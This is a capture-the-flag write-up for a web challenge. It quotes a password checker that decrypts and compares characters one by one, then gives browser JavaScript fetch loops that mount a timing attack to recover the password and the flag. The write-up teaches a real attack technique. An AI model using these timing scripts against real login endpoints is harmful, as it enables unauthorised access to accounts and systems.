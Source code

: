 # web/Secure Website

## Challenge

I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure [Password Checker](http://litctf.live:31776/)!

[`SecureWebsite.zip`](https://drive.google.com/file/d/1ixlV54JoFOGziLzlOewPBijbtePZo8SI/view)

## Solution

### Analysis

This is an interesting one! Looking in `main.js`, we see our main and only target:
```js
var flag = (process.env.FLAG ?? "ctf{flag}");
// I like alphanumeric passwords
var password = (process.env.password ?? "password");

/* ... standard Express.js stuff */

app.get('/verify', (req, res) => {
	var pass = req.query.password;
	if(pass == undefined || typeof(pass) !== 'string' || !checkPassword(password,pass)) {
		res.writeHead(302, {'Location': 'https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley'});
		res.end();
		return;
	}
	res.render("secret",{flag: flag});
});
```

Hm... to simple and standard to exploit here. We'll look at `checkPassword()` in `passwordChecker.js`:
```js
// I think this is how you're supposed to implement RSA?
// IDK this is a web challenge not a crypto challenge :clown:
// I just picked 2 random prime numbers as the tutorial said
// (Or is it 0_0)

/* ... blah blah some standard RSA code */

function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}

	if(arr.length != password.length) return false;
	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}
```
...well, that's interesting. As the top of the file hints, the RSA decryption is basic and standard, and we're given all public and private values so it's basically pointless.

But it's used weirdly... each _individual_ character is decrypted, one at a time, and the moment there's a mismatch, the function returns `false`. So it's seemingly even more pointless...

Except it seems there's really nowhere to exploit. `pass` must be a string, so we can't inject anything into this function. `NaN` won't break anything either.

But comparing strings character-by-character with an inefficient process that returns as soon as a mismatch is found? This sounds like a <u>timing attack</u>!

### Attack

For reference, how the password is encoded for transmission (`views/index.ejs`):
```js
function submitForm() {
    var pwd = $("#password").val();
    var arr = [];
    for(var i = 0;i < pwd.length;++i) {
        arr.push(encryptRSA(pwd.charCodeAt(i)));
    }
    window.location.href = "/verify?password=" + arr.join();
    return;
}
```
Since `checkPassword()` first checks lengths, we need to find the password length first before guessing characters:
```js
(async () => { // IIFE (to use await) not necessary on Chrome
    for (let i = 1; i <= 10; ++i) {
        const pwd = "a".repeat(i);
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join(); // arr.join()
        const t = performance.now(); // timing start
        await fetch(`http://litctf.live:31776/verify?password=${q}`, {
            "redirect": "manual", // to ignore the redirect
        });
        console.log(pwd, performance.now()-t); // timing end
        await new Promise(resolve => setTimeout(resolve, 2000)); // timeout to avoid rate limits
    }
})()
```
Rate limits were a bit annoying - they can show up as `429 Too Many Requests`, but they also randomly increase timings with no errors. However, looking at results, it's obvious whether rate limits affected it.

![code prints "a 2198" "aa 114" "aaa 114" ... "aaaaaa 192" ... "aaaaaaaaaa 107"](./Secure%20Website/timing.png)
Oh, yeah. The first request is always much slower for some reason, but the password isn't gonna be one character, right???

But anyway, hooray! `aaaaaa` has a clear difference! And the rest are almost constant, no need to average trials. We move on:
```js
(async () => {
    for (let c of "AABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `${c}aaaaa`;
/* the same thing */
```
(The first letter is to avoid the slow first request.)

But yay! `Caaaaa` has a significant difference (~1024 vs ~200), and we move on, testing `C${c}aaaa` and so on. (It's only 6 characters total, so it's not worthy to automate, especially since random outliers rarely appear.)

4 more rounds later (with requests taking longer and longer), we get `CxIj6_`. The last character is tricky, because a success won't mean another character check; instead, we will get sent to the flag!
```js
await (async () => {
    for (let c of "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz") {
        const pwd = `CxIj6${c}`;
        const q = pwd.split("").map(c=>encryptRSA(c.charCodeAt(0))).join();
        try {
            const res = await fetch(`http://litctf.live:31776/verify?password=${q}`, {
                "redirect": "error", // so only the correct one doesn't error
            });
            return await res.text();
        } catch {}
        console.log(pwd, "failed");
        await new Promise(resolve => setTimeout(resolve, 2000));
    }
})()
```
And for `CxIj6p`...
![part of HTML printed by code, including "...&lt;b&gt;LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}&lt;/b&gt;..."](./Secure%20Website/secret.png)
Yay!

## Flag

`LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}`

## Notes

At first I averaged trials, but then it got painfully slow so I tried just one each and it worked. Also, for the last character, I originally just manually guessed until I got it right! (Lots of rickrolling there...)
